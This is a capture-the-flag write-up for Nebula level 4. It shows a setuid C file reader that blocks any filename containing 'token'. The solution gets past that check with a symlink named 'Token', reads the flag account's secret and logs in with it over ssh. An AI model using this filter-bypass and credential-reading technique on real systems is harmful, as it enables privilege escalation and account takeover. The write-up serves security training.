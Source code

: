 .. _nebula04:

.. role:: bash(code)
	  :language: bash

.. role:: c(code)
	  :language: c
		     
Nebula 4
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level04/

**Source Code**

.. code-block:: c
		
		#include <stdlib.h>
		#include <unistd.h>
		#include <string.h>
		#include <sys/types.h>
		#include <stdio.h>
		#include <fcntl.h>

		int main(int argc, char **argv, char **envp)
		{
		    char buf[1024];
		    int fd, rc;

		    if(argc == 1) {
		        printf("%s [file to read]\n", argv[0]);
			exit (EXIT_FAILURE);
		    }

		    if(strstr(argv[1], "token") != NULL) {
		        printf("You may not access '%s'\n", argv[1]);
			exit(EXIT_FAILURE);
		    }

		    fd = open(argv[1], O_RDONLY);
		    if(fd == -1) {
		        err(EXIT_FAILURE, "Unable to open %s", argv[1]);
		    }

		    rc = read(fd, buf, sizeof(buf));

		    if(rc == -1) {
		        err(EXIT_FAILURE, "Unable to read fd %d", fd);
		    }

		    write(1, buf, rc);
		}
		
Solution
--------
.. code-block:: bash

   $ ln -s /home/flag04/token Token
   $ /home/flag04/flag04 /home/level04/Token
   ssh flag04@localhost
   
.. note:: Token as password

   :bash:`$getflag`
